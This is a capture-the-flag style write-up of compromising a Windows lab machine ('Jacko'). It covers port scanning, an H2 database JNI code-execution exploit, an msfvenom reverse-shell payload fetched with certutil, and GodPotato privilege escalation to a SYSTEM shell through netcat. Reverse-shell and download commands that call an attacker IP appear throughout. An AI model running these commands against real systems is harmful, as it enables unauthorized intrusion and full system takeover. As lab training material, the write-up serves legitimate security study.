 # Jacko

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:07 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).
Not shown: 65520 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
80/tcp    open     http
135/tcp   open     msrpc
139/tcp   open     netbios-ssn
445/tcp   open     microsoft-ds
5040/tcp  open     unknown
8082/tcp  open     blackice-alerts
9092/tcp  open     XmlIpcRegSvc
41213/tcp filtered unknown
49664/tcp open     unknown
49665/tcp open     unknown
49666/tcp open     unknown
49667/tcp open     unknown
49668/tcp open     unknown
49669/tcp open     unknown
57199/tcp filtered unknown
```

Lots of ports. I did a detailed `nmap` scan to further enumerate the ports. We would find a H2 Instance on one of the ports from this scan:

```
$ sudo nmap -p 80,135,139,445,5040,8082,9092 -sC -sV -O -T4 -Pn 192.168.197.66
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-04 18:25 +08
Nmap scan report for 192.168.197.66
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-server-header: Microsoft-IIS/10.0
|_http-title: H2 Database Engine (redirect)
| http-methods: 
|_  Potentially risky methods: TRACE
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
445/tcp  open  microsoft-ds?
5040/tcp open  unknown
8082/tcp open  http          H2 database http console
|_http-title: H2 Console
9092/tcp open  XmlIpcRegSvc?
```

The H2 Database does have a few code execution exploits that might work.&#x20;

### H2 Database --> RCE

Port 8082 shows us the login to the H2 database.

<figure><img src="../../../.gitbook/assets/image (27) (5).png" alt=""><figcaption></figcaption></figure>

We can just click 'Connect', and login successfully.

<figure><img src="../../../.gitbook/assets/image (164).png" alt=""><figcaption></figcaption></figure>

This version has code execution exploits available:

```
$ searchsploit H2 Database 1.4.199
----------------------------------------------------------- ---------------------------------
 Exploit Title                                             |  Path
----------------------------------------------------------- ---------------------------------
H2 Database 1.4.199 - JNI Code Execution                   | java/local/49384.txt
----------------------------------------------------------- ---------------------------------
```

To exploit this, we would need to just copy and paste the script contents of the `searchsploit` file twice, and we would get RCE:

<figure><img src="../../../.gitbook/assets/image (16) (3).png" alt=""><figcaption></figcaption></figure>

To get a reverse shell, simply use these 2 commands with a `msfvenom` generated payload.

```
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.177 LPORT=21 -f exe > pwn.exe
certutil -urlcache -split -f http://192.168.45.177/pwn.exe C:\\Windows\\Tasks\\pwn.exe
C:\\Windows\\Tasks\\pwn.exe
```

<figure><img src="../../../.gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

`whoami.exe` is located in `C:\Windows\System32`, and this machine has a broken PATH variable.

## Privilege Escalation

### PrintSpoofer Fail

We can check our privileges using `whoami.exe`:

```
C:\Windows\System32>whoami.exe /priv
whoami.exe /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State   
============================= ========================================= ========
SeShutdownPrivilege           Shut down the system                      Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled 
SeUndockPrivilege             Remove computer from docking station      Disabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled 
SeCreateGlobalPrivilege       Create global objects                     Enabled 
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
SeTimeZonePrivilege           Change the time zone                      Disabled
```

The `SeImpersonatePrivilege` is enabled, so we can use `PrintSpoofer.exe` to exploit this. First, let's download the binary to the machine:

```
C:\Windows\System32>certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
certutil -urlcache -split -f http://192.168.45.177/PrintSpoofer.exe C:/Windows/Tasks/print.exe
****  Online  ****
  0000  ...
  6a00
CertUtil: -URLCache command completed successfully.
```

However, the exploit seems to fail:

```
C:\Users\tony\Desktop>.\print.exe -i -c cmd
.\print.exe -i -c cmd
[+] Found privilege: SeImpersonatePrivilege
[+] Named pipe listening...
[-] Operation failed or timed out
```

So we have to find another way.&#x20;

### GodPotato.exe

We can try using `GodPotato.exe` since that privilege is probably the intended solution:

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c whoami"
.\godpotato.exe -cmd "cmd /c whoami"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\509f9274-ba8c-4b7c-844e-55d04cdf359c\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00009002-05c4-ffff-2de7-6cc9f11fd1cf
[*] DCOM obj OXID: 0x20259e4ef373758d
[*] DCOM obj OID: 0xdee8046159a66ec5
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 408
```

Looks like it works well. Now we can download `nc.exe` onto the machine and get ourselves another reverse shell.&#x20;

```
C:\Windows\Tasks>.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe
.\godpotato.exe -cmd "cmd /c C:/Windows/Tasks/nc.exe 192.168.45.177 4444 -e cmd.exe"
[*] CombaseModule: 0x140725151858688
[*] DispatchTable: 0x140725154201184
[*] UseProtseqFunction: 0x140725153568784
[*] UseProtseqFunctionParamCount: 6
[*] HookRPC
[*] Start PipeServer
[*] CreateNamedPipe \\.\pipe\36900a7f-bec3-4dd7-9606-fc8ece7a7d11\pipe\epmapper
[*] Trigger RPCSS
[*] DCOM obj GUID: 00000000-0000-0000-c000-000000000046
[*] DCOM obj IPID: 00008802-0d1c-ffff-64b7-d6de22e4ee03
[*] DCOM obj OXID: 0x1bb30dc7fc7c0cb7
[*] DCOM obj OID: 0x770fb99694a2c278
[*] DCOM obj Flags: 0x281
[*] DCOM obj PublicRefs: 0x0
[*] Marshal Object bytes len: 100
[*] UnMarshal Object
[*] Pipe Connected!
[*] CurrentUser: NT AUTHORITY\NETWORK SERVICE
[*] CurrentsImpersonationLevel: Impersonation
[*] Start Search System Token
[*] PID : 800 Token:0x504  User: NT AUTHORITY\SYSTEM ImpersonationLevel: Impersonation
[*] Find System Token : True
[*] UnmarshalObject: 0x80070776
[*] CurrentUser: NT AUTHORITY\SYSTEM
[*] process start with pid 1592
```

<figure><img src="../../../.gitbook/assets/image (13) (5).png" alt=""><figcaption></figcaption></figure>

This is a SYSTEM shell, and we can grab the required flags. Rooted!
